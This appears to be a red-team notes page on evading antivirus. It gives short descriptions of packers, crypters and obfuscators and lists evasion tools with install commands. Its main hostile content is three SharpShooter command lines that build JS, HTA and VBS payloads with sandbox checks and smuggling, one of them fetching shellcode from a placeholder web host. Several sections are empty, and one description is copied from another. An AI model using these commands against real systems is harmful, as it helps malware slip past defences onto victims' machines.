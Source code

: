 # Bypassing AV

## In-Memory Evasion

### Inline Hooking

### Process Hollowing

#### C\# Process Hollowing

### Reflective DLL Injection

## On-Disk Evasion

### Packers <a id="veil-framework"></a>

Reduces the file of an executable. The functionally is equivalent with a complete new binary structure. The result is a new signature therefore bypassing OLDER AV's 

### Crypters <a id="veil-framework"></a>

Alters executable code with cryptography and adds a decrypting stub that stores the original code for execution. The encrypted code is on disk. The decryption happens in memory. This technique can be very effective against AVs.

### Obfuscators <a id="veil-framework"></a>

Alters executable code with cryptography and adds a decrypting stub that stores the original code for execution. The encrypted code is on disk and the decryption happens in memory. This technique can be very effective against AV.  However, obfuscators are often used in scripts whereas crypters are often used in binaries.

## Tools

### Veil Framework <a id="veil-framework"></a>

Install on Kali:

```text
apt install veil
/usr/share/veil/config/setup.sh --force --silent
```

Reference: [https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil)

### Shellter <a id="shellter"></a>

Source: [https://www.shellterproject.com/download/](https://www.shellterproject.com/download/)

```text
apt install shellter
```

### Sharpshooter <a id="sharpshooter"></a>

Javascript Payload Stageless:

```text
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Stageless HTA Payload:

```text
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Staged VBS:

```text
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

Reference: [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

### Donut <a id="donut"></a>

Source: [https://github.com/TheWover/donut](https://github.com/TheWover/donut)

### Vulcan <a id="vulcan"></a>

Source: [https://github.com/praetorian-code/vulcan](https://github.com/praetorian-code/vulcan)

### GreatSCT

Source: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

### Ebowla Encoding for AV Evasion



